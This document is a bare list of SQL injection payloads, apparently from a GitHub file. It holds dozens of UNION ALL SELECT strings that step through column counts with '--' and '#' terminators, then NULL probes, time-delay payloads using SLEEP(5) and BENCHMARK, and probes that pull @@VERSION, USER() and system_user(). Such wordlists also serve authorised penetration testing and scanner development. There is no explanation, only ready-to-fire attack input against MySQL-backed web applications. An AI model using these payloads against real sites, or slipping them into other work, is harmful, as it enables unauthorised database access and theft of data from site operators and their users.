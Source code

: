 ```
UNION ALL SELECT 'INJ'||'ECT'||'XXX',2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17-- 
UNION ALL SELECT 'INJ'||'ECT'||'XXX',2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18
UNION ALL SELECT 'INJ'||'ECT'||'XXX',2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18#
UNION ALL SELECT 'INJ'||'ECT'||'XXX',2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18-- 
UNION ALL SELECT 'INJ'||'ECT'||'XXX',2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19
UNION ALL SELECT 'INJ'||'ECT'||'XXX',2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19#
UNION ALL SELECT 'INJ'||'ECT'||'XXX',2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19-- 
UNION ALL SELECT 'INJ'||'ECT'||'XXX',2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20
UNION ALL SELECT 'INJ'||'ECT'||'XXX',2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20#
UNION ALL SELECT 'INJ'||'ECT'||'XXX',2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20-- 
UNION ALL SELECT 'INJ'||'ECT'||'XXX',2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21
UNION ALL SELECT 'INJ'||'ECT'||'XXX',2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21#
UNION ALL SELECT 'INJ'||'ECT'||'XXX',2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21-- 
UNION ALL SELECT 'INJ'||'ECT'||'XXX',2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22
UNION ALL SELECT 'INJ'||'ECT'||'XXX',2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22#
UNION ALL SELECT 'INJ'||'ECT'||'XXX',2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22-- 
UNION ALL SELECT 'INJ'||'ECT'||'XXX',2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23
UNION ALL SELECT 'INJ'||'ECT'||'XXX',2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23#
UNION ALL SELECT 'INJ'||'ECT'||'XXX',2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23-- 
UNION ALL SELECT 'INJ'||'ECT'||'XXX',2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24
UNION ALL SELECT 'INJ'||'ECT'||'XXX',2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24#
UNION ALL SELECT 'INJ'||'ECT'||'XXX',2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24-- 
UNION ALL SELECT 'INJ'||'ECT'||'XXX',2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24,25
UNION ALL SELECT 'INJ'||'ECT'||'XXX',2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24,25#
UNION ALL SELECT 'INJ'||'ECT'||'XXX',2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24,25-- 
UNION ALL SELECT 'INJ'||'ECT'||'XXX',2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24,25,26
UNION ALL SELECT 'INJ'||'ECT'||'XXX',2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24,25,26-- 
UNION ALL SELECT 'INJ'||'ECT'||'XXX',2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24,25,26,27
UNION ALL SELECT 'INJ'||'ECT'||'XXX',2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24,25,26,27-- 
UNION ALL SELECT 'INJ'||'ECT'||'XXX',2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24,25,26,27,28
UNION ALL SELECT 'INJ'||'ECT'||'XXX',2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24,25,26,27,28-- 
UNION ALL SELECT 'INJ'||'ECT'||'XXX',2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24,25,26,27,28,29
UNION ALL SELECT 'INJ'||'ECT'||'XXX',2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24,25,26,27,28,29-- 
UNION ALL SELECT 'INJ'||'ECT'||'XXX',2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24,25,26,27,28,29,30
UNION ALL SELECT 'INJ'||'ECT'||'XXX',2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24,25,26,27,28,29,30-- 
UNION ALL SELECT NULL 
UNION ALL SELECT NULL#
UNION ALL SELECT NULL-- 
UNION ALL SELECT SLEEP(5)-- 
' UNION ALL SELECT system_user(),user();#
UNION ALL SELECT USER()-- 
UNION ALL SELECT USER(),SLEEP(5)-- 
UNION ALL SELECT @@VERSION,USER(),SLEEP(5)-- 
UNION ALL SELECT @@VERSION,USER(),SLEEP(5),BENCHMARK(1000000,MD5('A'))-- 
UNION ALL SELECT @@VERSION,USER(),SLEEP(5),BENCHMARK(1000000,MD5('A')),NULL-- 
UNION ALL SELECT @@VERSION,USER(),SLEEP(5),BENCHMARK(1000000,MD5('A')),NULL,NULL-- 
UNION ALL SELECT @@VERSION,USER(),SLEEP(5),BENCHMARK(1000000,MD5('A')),NULL,NULL,NULL-- 
UNION ALL SELECT @@VERSION,USER(),SLEEP(5),BENCHMARK(1000000,MD5('A')),NULL,NULL,NULL,NULL-- 
UNION ALL SELECT @@VERSION,USER(),SLEEP(5),BENCHMARK(1000000,MD5('A')),NULL,NULL,NULL,NULL,NULL-- 
```